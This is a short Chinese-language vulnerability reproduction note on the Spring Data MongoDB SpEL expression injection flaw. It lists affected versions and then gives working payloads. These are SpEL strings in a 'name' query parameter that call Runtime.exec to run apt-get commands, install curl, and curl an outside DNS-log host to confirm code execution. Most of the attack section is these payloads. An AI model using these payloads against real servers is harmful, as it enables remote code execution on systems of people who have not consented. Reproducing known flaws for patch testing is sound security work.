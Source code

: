 # Spring Data MongoDB SpEL表达式注入漏洞

# 一、漏洞描述
Spring官方发布了关于Spring Data MongoDB SpEL表达式注入漏洞的修复信息，当使用@Query或@Aggregation注解进行查询时，若通过SpEL表达式中形如“?0”的占位符来进行参数赋值，同时应用程序未对用户输入进行过滤处理，则可能受到SpEL表达式注入的影响，成功利用该漏洞的攻击者可在目标服务器上执行代码。

# 二、影响版本
Spring Data MongoDB == 3.4.0

3.3.0 <= Spring Data MongoDB <= 3.3.4

旧的、不受支持的版本也会受到影响

# 三、资产测绘
```plain

```

![1730011780302-72a7fb38-c2c2-4f89-bf47-cdd8f776e224.png](./img/ZExlZ6n1pcklAxos/1730011780302-72a7fb38-c2c2-4f89-bf47-cdd8f776e224-536417.png)

# 三、漏洞复现
```plain
#更新
/name=T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('apt-get update')

#下载curl
/name=T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('apt-get install -y curl')
```

执行curl dnslog

```plain
/?name=T(java.lang.String).forName(%27java.lang.Runtime%27).getRuntime().exec(%27curl%20hrnceuwsrl.iyhc.eu.org%27)
```

![1730012025414-b5771bdf-4af2-42ab-873f-54933df0e54b.png](./img/ZExlZ6n1pcklAxos/1730012025414-b5771bdf-4af2-42ab-873f-54933df0e54b-779912.png)





> 更新: 2024-11-27 10:04:43  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dcbhf1pnmuar814k>